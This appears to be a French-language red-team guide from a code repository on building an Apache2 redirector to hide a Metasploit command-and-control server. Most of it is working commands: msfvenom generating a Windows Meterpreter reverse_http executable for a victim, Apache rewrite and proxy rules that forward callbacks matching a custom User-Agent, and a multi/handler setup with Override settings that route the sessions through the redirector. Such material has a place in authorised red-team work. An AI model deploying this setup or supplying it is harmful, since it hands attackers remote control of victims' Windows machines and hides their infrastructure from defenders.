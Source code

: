 # Redirector

Il s'agit d'un serveur qui « redirige » les requêtes HTTP/HTTPS en fonction des informations contenues dans le corps de la requête.

La configuration d'un redirecteur garantit que toutes les informations que vous avez pu collecter au cours de l'engagement sont saines et sauves.

Configurer un pare-feu pour autoriser uniquement la communication vers et depuis votre (vos) redirecteur(s) afin d'atténuer les risques potentiels

# Metasploit + Apache2

Les modules suivants doivent être activés :

- rewrite
- proxy
- proxy_http
- headers

```sh
sudo apt install apache2 -y
```

```sh
sudo a2enmod rewrite && sudo a2enmod proxy && sudo a2enmod proxy_http && sudo a2enmod headers && sudo systemctl start apache2 && sudo systemctl status apache2
```

Nous générerons une charge utile HTTP inversée

```sh
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.x.x LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
```

Après avoir généré l'exécutable et transféré à une victime, vous remarquerez avec Wireshark qu'une requête HTTP arrive avec notre `User-Agent: NotMeterpreter`

Maintenant que nous avons un champ que nous pouvons contrôler dans la requête HTTP, créons une règle qui filtre sur le `User-Agent` et transmettons-la à notre serveur Metasploit C2.

```sh
sudo nano /etc/apache2/sites-available/000-default.conf
```

```xml
<VirtualHost *:80>

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	RewriteEngine On
	RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"
	ProxyPass "/" "http://localhost:8080/"

	<Directory>
		AllowOverride All
	</Directory>

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```


Pour configurer correctement Meterpreter :

- Nous devons définir notre argument `LHOST` sur l'interface entrante à partir de laquelle nous attendons des connexions. Dans le monde réel, ce sera votre interface publique à laquelle votre redirecteur se connectera (c'est-à-dire votre adresse IP publique), et le `LPORT` sera celui que vous souhaitez. **Ces options devront également être dupliquées pour ReverseListenerBindAddress et ReverseListenerBindPort.**

- Nous devons configurer `OverrideLHOST` - Cette valeur sera l'adresse IP ou le nom de domaine de votre redirecteur.

- Nous devons définir `OverrideLPORT` ; ce sera le port sur lequel HTTP _ou_ HTTPS s'exécute, sur votre redirecteur.

- Nous devons définir `OverrideRequestHost` sur `true`. Cela obligera Meterpreter à répondre avec les informations `OverrideHost`, de sorte que toutes les requêtes passent par le redirecteur et non par votre serveur C2

```sh
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST 127.0.0.1
set LPORT 8080
set ReverseListenerBindAddress 127.0.0.1
set ReverseListenerBindPort 8080
set OverrideLHOST 192.168.0.44
set OverrideLPORT 80
set HttpUserAgent NotMeterpreter
set OverrideRequestHost true
run
```